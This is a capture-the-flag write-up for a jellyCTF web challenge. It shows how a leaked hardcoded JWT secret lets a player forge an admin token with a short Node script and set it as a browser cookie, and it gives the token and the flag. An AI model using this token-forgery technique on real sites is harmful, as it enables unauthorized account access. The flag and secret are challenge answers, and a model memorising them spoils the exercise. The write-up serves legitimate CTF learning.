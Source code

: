 # vlookup_hot_singles

## Difficulty

Easy

## Points Earned

100

## Description

> looks like this is some kind of dating site for nerds? weird, figure out who the admin is and access their panel
> 
> 50 point hint: what to do, but not how to do it
> 
> Author: arepi
> 
> https://vlookup-hot-singles.jellyc.tf/

![vlookup_hot_singles website](./images/vlookup_hot_singles.png "vlookup_hot_singles")

## Solution

Forge a JWT to access the admin panel.

The source code gives us some hints about what the JWT should look like:

```python
JWT_SECRET = "singaQu5aeWoh1vuoJuD]ooJ9aeh2soh"

def is_admin(token):
    data = jwt.decode(token, JWT_SECRET, algorithms=["HS256"])
    return data["user"] == "jelly"
```

I wrote a Node script to generate the JWT:

```js
 const sign = require('jwt-encode');
 const secret = 'singaQu5aeWoh1vuoJuD]ooJ9aeh2soh';
 const data = {
     user: "jelly"
 };
 const jwt = sign(data, secret);
 console.log(jwt);
```

Which gives me `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiamVsbHkifQ.7wQ41K0c7OZqWaePlf3v0QKuX-jOc4kFqks_eWrfQhE`.

Then I opened Chrome devtools and went to cookies under Application > Storage. Paste the encoded JWT into the token value field and then you should be able to access the admin panel.

![vlookup_hot_singles solution](./images/vlookup_hot_singles_sol.png "vlookup_hot_singles solution")

## Flag

`jellyCTF{i_am_b3c0m3_awawa_d3str0y3r_0f_f3m4135}`